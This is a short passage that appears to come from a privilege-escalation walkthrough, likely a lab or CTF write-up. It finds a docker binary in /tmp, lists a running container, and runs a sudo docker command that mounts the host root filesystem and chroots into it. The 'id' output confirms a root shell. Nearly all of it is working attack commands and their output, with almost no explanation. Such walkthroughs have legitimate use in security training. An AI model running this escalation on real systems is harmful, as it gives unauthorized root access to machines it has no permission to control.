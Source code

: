 - - -

#### Locate docker ( Try to find all common locations )
 
```sh
ls -lh /tmp
-rwxr-xr-x 1 root userX 86M Jan 12 16:39 docker*
```

```sh
/tmp/docker ps

CONTAINERID    IMAGE     COMMAND               CREATED         STATUS        PORTS                      NAMES

ec96850005d6   mangoman  "/usr/sbin/sshd -D"   3 weeks ago     Up 2 hours    127.0.0.1:2222->22/tcp     kronstadt_industrie

```

Note your Docker **image name** :

```sh
cd /tmp ; sudo ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

```sh
 id
uid=0(root) gid=0(root) groups=0(root)
```

- - -


